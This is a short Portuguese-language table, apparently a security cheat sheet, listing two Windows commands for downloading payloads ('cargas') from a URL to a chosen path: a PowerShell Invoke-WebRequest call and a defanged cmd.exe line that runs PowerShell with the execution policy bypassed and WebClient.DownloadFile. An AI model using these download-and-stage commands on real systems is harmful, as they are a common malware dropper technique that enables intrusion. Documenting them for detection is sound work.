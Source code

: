 | COMANDO | DESCRIÇÃO |
|--------------------------------------------|--------------------------------------------------------------------------------------|
| powershell Invoke-webrequest -URI <URL> -outfile <file_location_on_system> | Comando utilizado para download de cargas de uma determinada URL e indicação de path |
| cmd[.]exe /c powershell[.]exe -ExecutionPolicy ByPass -WindowStyle Normal (New-Object System[.]Net[.]WebClient).DownloadFile('<URL>', '<LOCAL A SER SALVO>') | Comando utilizado para baixar um arquivo via CMD e salvá-lo em um local específico no sistema | 
